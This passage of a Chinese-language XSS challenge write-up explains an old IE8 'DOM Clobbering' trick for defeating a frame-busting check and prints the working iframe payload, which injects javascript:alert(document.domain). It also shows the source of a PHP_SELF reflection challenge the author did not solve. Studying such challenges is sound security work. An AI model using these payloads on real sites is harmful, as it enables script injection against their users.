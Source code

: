 ```
}
else
{
echo htmlspecialchars($page);
}
?>'></form>
<script>
if(top!=self){
 location=self.location
}
</script>
</body>
</html>
```

题目里通过设置top和self比较，禁止了通过iframe来引用这个页面，但是在ie8下，有一个trick叫做`DOM Clobbering`。

我只能说...还有这种操作...

[http://www.thespanner.co.uk/2013/05/16/dom-clobbering/](http://www.thespanner.co.uk/2013/05/16/dom-clobbering/)

不说了，实在太老了
```
<meta http-equiv=x-ua-compatible content=IE=8>
<iframe src="http://xianzhi.aliyun.com/xss15.php?page=1'name=self location='javascript%3Aalert(document.domain)"></iframe>
```

# 16 PHP_SELF #

```
<html>
<head>
<meta charset=utf-8>
<meta http-equiv="X-UA-Compatible" content="IE=10">
<link href="styles.css" rel="stylesheet" type="text/css" />
</head>
<body>
<img src="xss.png" style="display: none;">
<h1>
<?php
$output=str_replace("<","<",$_SERVER['PHP_SELF']);
$output=str_replace(">",">",$output);
echo $output;
?>
</h1>
</body>
</html>
```

花了大时间研究这题，可惜完全不会...
